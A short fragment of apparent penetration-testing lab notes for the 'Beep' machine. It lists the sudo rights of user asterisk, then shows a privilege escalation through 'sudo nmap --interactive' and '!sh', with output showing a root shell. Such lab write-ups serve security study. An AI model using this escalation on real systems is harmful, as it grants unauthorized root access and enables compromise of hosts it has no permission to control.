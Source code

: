 ![](Maszyny/Linux/Beep/Pasted%20image%2020210811025304.png)

User asterisk may run the following commands on this host:
(root) NOPASSWD: /sbin/shutdown
(root) NOPASSWD: /usr/bin/nmap
(root) NOPASSWD: /usr/bin/yum
(root) NOPASSWD: /bin/touch
(root) NOPASSWD: /bin/chmod
(root) NOPASSWD: /bin/chown
(root) NOPASSWD: /sbin/service
(root) NOPASSWD: /sbin/init
(root) NOPASSWD: /usr/sbin/postmap
(root) NOPASSWD: /usr/sbin/postfix
(root) NOPASSWD: /usr/sbin/saslpasswd2
(root) NOPASSWD: /usr/sbin/hardware_detector
(root) NOPASSWD: /sbin/chkconfig
(root) NOPASSWD: /usr/sbin/elastix-helper
sudo /usr/bin/nmap --interactive
Starting Nmap V. 4.11 ( http://ww.insecure.org/nmap/)
Welcome to Interactive Mode press h <enter> for help
!sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin), 2(daemon),3( sys), 4(adm), 6(disk), 10(wheel)
